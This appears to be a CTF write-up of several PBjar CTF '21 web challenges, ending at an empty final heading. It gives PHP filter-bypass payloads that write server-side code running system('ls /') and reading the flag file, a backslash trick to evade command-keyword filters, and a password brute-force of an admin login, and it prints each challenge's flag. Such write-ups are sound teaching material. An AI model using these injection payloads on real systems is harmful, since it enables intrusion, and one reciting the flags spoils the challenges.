



# PBjar CTF '21
## Web challenges

Those challenges are not hard. Anyway, I still write writeup for them to end a lazy week :(
## Programmers hate programming

File ProgrammersHateProgramming-sourcecode.php is provided:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
We can understand that when we write something in 'new node', a file with php extension will be created with our input.

Filter in this challenge is really easy to bypass, we can use two filtered words interlocked, only one words is deleted and we got the word we need.

For example:



oke, generate payload to find and get flag:

- List files in `/`
  ```
  <?p<?phphp
    system('ls /');
  ??>>
  ```
  
 Oke, flag is here
 
 
 
 - Next, just cat the flag:
  ```
  <?p<?phphp
    system('cat /flflagag.php');
  ??>>
  ```
### Flag: flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
  
## Programmers hate programming 2
The idea is same with Programmers hate programming but more words are filtered:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<?", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("ls", "", $notetoadd);
    $notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
- List file in /:
With some words we can use the same way with programmers hate programming to bypass, but others like `cat, ls,..` We can see str_replace is used and replacing does not do one time, so we can use the this way.
We can use `\` to notify that the command doesn't finish. By this way we will have full command:
```
  <<??php
    system('l\s /');
  ??>>
```
- Cat flag.php:

```
  <<??php
    system('c\at /flflagag.php');
  ??>>
```
### Flag: flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}

## C0rl:
### Hint: username and poplular password for admin.

First, I think popular username for admin maybe is admin, and what is popular password for admin, I'm to lazy to think, so I use `100000-password-seclists.txt` to brute force with burp.

Finally, I find out the password is `admin`, lol.

I still can't get the flag:



But Why `put` is bold?

Let try changing HTTP request heder to `PUT`. Oh we get flag:


### FLAG: flag{HTTP_r3qu35t_m3th0d5_ftw}

## Hack NASA With HTML Mr. Inspector Sherlock
It's an easy challenge, so I only show the file which flag locate.

FLag part 1 is in animation.js: flag{wA1t_a_m1nUt3_

Flag part 2 is in what.html (access sofware.html we can see what.html): I_th0ugh1_sh3l0ck_w2s

Flag part3 (only view source): _a_d3t3ct1iv3????!?!?!}

### Flag: flag{wA1t_a_m1nUt3_I_th0ugh1_sh3l0ck_w2s_a_d3t3ct1iv3????!?!?!}

## omgsosmolhowhacc


